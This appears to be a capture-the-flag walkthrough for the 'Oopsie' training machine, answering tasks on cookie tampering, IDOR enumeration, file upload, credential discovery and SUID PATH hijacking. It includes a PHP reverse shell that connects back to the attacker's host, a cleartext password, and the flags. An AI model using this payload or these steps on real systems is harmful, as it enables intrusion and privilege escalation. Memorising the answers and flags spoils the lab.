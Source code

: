 ### Oopsie

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** PHP, Custom Applications, Apache, Reconnaissance, Web Site Structure Discovery, Cookie  Manipulation, SUID Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, Insecure Direct Object Reference (IDOR), Path Hijacking<br>



---

#### Task 1
**With what kind of tool can intercept web traffic?**
> proxy



---

#### Task 2
**What is the path to the directory on the webserver that returns a login page?**
> /cdn-cgi/login

We can use BurpSuite to get a site-map for our target website. Looking at the site-map, we see that there is a url to `/cdn-cgi/login/script.js`:

![BurpSuite Site Map](BurpSuite.png)

We navigate to the login page `http://{TARGET IP}/cdn-cgi/login`:

![Login Page](login_page.png)



---

#### Task 3
**What can be modified in Firefox to get access to the upload page?**
> cookie

We login as guest and click the Upload tab at the top of the webpage. We see that we need super admin rights to access the upload page:

![Super User](super_user.png)

We go to the Proxy Tab and then Intercept Tab in BurpSuite. Then we turn intercept on visit the upload page again. We see that the website makes an HTTP Request with `user` and `role` cookies:

![Intercepted Upload HTTP Request](upload_request.png)



---

#### Task 4
**What is the access ID of the admin user?**
> 34322

The account page shows the current user:
![Account Page](account_page.png)

We go to the Proxy Tab and then Intercept Tab in BurpSuite. Then we turn intercept on and visit the account page on the target website while logged in as the guest user:

![Intercepted Account HTTP Request](accounts_request.png)

Next we send the intercepted HTTP Request in BurpSuite to the Intruder. On the positions tab, we set the attack type to `Sniper` and set the payload to id:

![Intruder Positions Tab](intruder1.png)

On the payload tabs, we set the Payloads type to `Numbers`:

![Intruder Payloads Tab](intruder2.png)

On the settings tab, we set Grep - Match to `admin`:

![Intruder Settings Tab](intruder3.png)

After starting the attack, we see that an id of `1` one gives us the admin account page:

![Intruder Attack Result](intruder4.png)

Lastly, we navigate to `http://{TARGET IP}cdn-cgi/login/admin.php?content=accounts&id=1` and see that the admin access ID is 34322:

![Admin Account Information](admin_account.png)



---

#### Task 5
**On uploading a file, what directory does that file appear in on the server?**
> /uploads

Next we go to the upload tab on the target website and change the cookies to `34322` and `admin`:

![Set Cookies](set_cookies.png)

We see that we can upload files now:

![Upload Files Page](upload.png)

We make a file called `test.txt` and upload it. Next we use gobuster to search for the folder that our uploaded file is in:

![Gobuster Find Uploaded File](gobuster.png)



---

#### Task 6
**What is the file that contains the password that is shared with the robert user?**
> db.php

We make a `shell.php` file on our own computer:

```php
<?php

$sock=fsockopen("{OUR IP}",12345);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);

?>
```

Next open a netcat listener on our computer. Next we upload the `shell.php` to the target website and visit `http://{TARGET IP}/uploads/shell.php`:

![Reverse Shell](reverse_shell.png)

In our reverse shell, we search `the /var/www/html` directory for files containing the word robert. The only file containing the word robert is `cdn-cgi/login/db.php`:

![Roberts Password](password.png)




---

#### Task 7
**What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?**
> find

We run the bash find command to find the only file owned by the bugtracker group is `/usr/bin/bugtracker`:

```bash
find / -group bugtracker 2>/dev/null
```



---

#### Task 8
**Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?**
> root

We can use stat to check the privileges of the `/usr/bin/bugtracker` file:

![Bugtracker Privileges](bugtracker_access.png)



---

#### Task 9
**What SUID stands for?**
> Set owner User ID



---

#### Task 10
**What is the name of the executable being called in an insecure manner?**
> cat

We try to run the `/usr/bin/bugtracker` executable but can't. We get a terminal and login as robert with `M3g4C0rpUs3r!` the password we found earlier"

![Running Bugtracker](running_bugtracker.png)

Now we can run the `/usr/bin/bugtracker` executable. We give an ID of 500. The executable then throws an error because the `cat` command cannot find a file named `/roots/report/500`:

![Error](cat.png)



---

#### User Flag
> f2c74ee8db7983851ab2a96a44eb7981

![User Flag](user_flag.png)



#### Root Flag
> af13b0bee69f8a877c3faf667f7beacf

The executable for the `cat` command is stored at `/bin/cat`. We have privileges in the `/tmp` directory. In the `/tmp` directory, we make a new executable `cat` with the contents `/bin/sh`. Then we modify the path variable. Now the executable for the `cat` command is the file that we wrote:

![Replaced Cat Command](overwriting_cat.png)

We can execute the `cat` command and any following command will be executed by our bash shell as the root user:

![Root Flag](root_flag.png)


---